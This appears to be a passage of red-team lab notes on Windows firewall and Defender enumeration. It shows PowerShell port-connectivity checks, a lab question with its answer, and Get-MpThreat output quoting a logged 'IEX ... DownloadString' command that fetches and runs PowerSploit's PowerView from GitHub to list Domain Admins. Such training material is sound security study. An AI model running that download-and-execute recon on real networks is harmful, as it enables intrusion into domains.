 ```
Delivery Optimization (TCP-In)                                                  True

	    
```

During the red team engagement, we have no clue what the firewall blocks. However, we can take advantage of some PowerShell cmdlets such as Test-NetConnection and TcpClient. Assume we know that a firewall is in place, and we need to test inbound connection without extra tools, then we can do the following: 

```
PowerShell

           
			
PS C:\Users\thm> Test-NetConnection -ComputerName 127.0.0.1 -Port 80


ComputerName     : 127.0.0.1
RemoteAddress    : 127.0.0.1
RemotePort       : 80
InterfaceAlias   : Loopback Pseudo-Interface 1
SourceAddress    : 127.0.0.1
TcpTestSucceeded : True

PS C:\Users\thm> (New-Object System.Net.Sockets.TcpClient("127.0.0.1", "80")).Connected
True

	    
```

As a result, we can confirm the inbound connection on port 80 is open and allowed in the firewall. Note that we can also test for remote targets in the same network or domain names by specifying in the -ComputerName argument for the Test-NetConnection. 


![[Pasted image 20220910183447.png]]

Enumerate the attached Windows machine and check whether the host-based firewall is enabled or not! (Y|N)
*N*

```
PS C:\Users\kkidd> Get-MpThreat


CategoryID       : 8
DidThreatExecute : False
IsActive         : False
Resources        : {CmdLine:_C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object Net.WebClient).D
                   ownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1');
                   Get-NetGroupMember 'Domain Admins', internalCmdLine:_i AQAAAA2wA4AAAAAAAAAAAF8Q02fXQQEAbRa5PR40vlvAd
                   Uq6bbN3ro51dwpUcm9qYW46UG93ZXJTaGVsbC9Qb3dlcnNwbG9pdC5HAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                   AAAAA== 57 10 C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe powershell IEX (New-Object N
                   et.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Power
                   View.ps1'); Get-NetGroupMember 'Domain Admins'}
RollupStatus     : 1
SchemaVersion    : 1.0.0.0
SeverityID       : 5
ThreatID         : 2147725325
```